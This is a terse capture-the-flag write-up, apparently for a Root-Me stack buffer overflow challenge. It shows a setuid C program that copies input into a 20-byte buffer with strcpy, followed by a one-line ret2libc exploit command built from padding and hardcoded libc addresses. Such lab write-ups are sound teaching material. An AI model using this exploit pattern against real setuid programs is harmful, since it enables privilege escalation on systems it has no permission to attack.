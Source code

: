 ```yaml
---
description: 'Note : A JOURNEY TO GAIN KNOWLEDGE'
---
```


# 🐧 ELF x86 - Stack buffer overflow basic 6

Code chall:

```c
#include <stdio.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>
 
int main (int argc, char ** argv){
    char message[20];
 
    if (argc != 2){
        printf ("Usage: %s <message>\n", argv[0]);
        return -1;
    }
 
    setreuid(geteuid(), geteuid());
    strcpy (message, argv[1]);
    printf ("Your message: %s\n", message);
    return 0;
}
```

```python
./ch33 `python -c "print 'A'*20 + '1'*12 + '\x10\x83\xe6\xb7' + 'AAAA' + '\x4c\xad\xf8\xb7'"`
```

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

